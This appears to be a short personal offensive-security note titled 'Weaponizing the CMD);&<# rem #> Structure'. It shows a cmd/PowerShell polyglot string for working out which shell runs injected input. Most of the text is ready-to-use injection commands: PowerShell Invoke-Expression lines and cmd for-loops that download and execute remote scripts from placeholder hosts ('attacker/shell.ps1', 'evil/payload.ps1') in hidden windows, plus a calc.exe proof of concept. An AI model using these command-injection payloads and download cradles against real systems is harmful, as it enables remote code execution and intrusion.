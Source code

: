 ```yaml
---
title: 'Weaponizing the CMD);&<# rem #> Structure'
updated: 2025-04-19 11:16:15Z
created: 2025-04-19 10:51:37Z
latitude: -33.78668940
longitude: 150.95264980
altitude: 0.0000
---
```


## Determine what environment commands are run in

`(dir 2>&1 *'|echo CMD);&<# rem #>echo PowerShell`
is **inert unless executed inside a context** that **evaluatees the full line**

**Injected Inside a Vulnerable Script or Service**
*PowerShell*
`Invoke-Expression "(dir 2>&1 *'|echo powershell -nop -w hidden -c IEX(New-Object Net.WebClient).DownloadString('http://attacker/shell.ps1'));&"`

*cmd*
`for /f "delims=" %i in ('dir 2^>^&1 *^|echo calc.exe') do @%i`

`for /f "delims=" %i in ('dir 2^>^&1 *^|echo powershell -w hidden -nop -c "IEX(New-Object Net.WebClient).DownloadString('http://evil/payload.ps1')"') do @%i`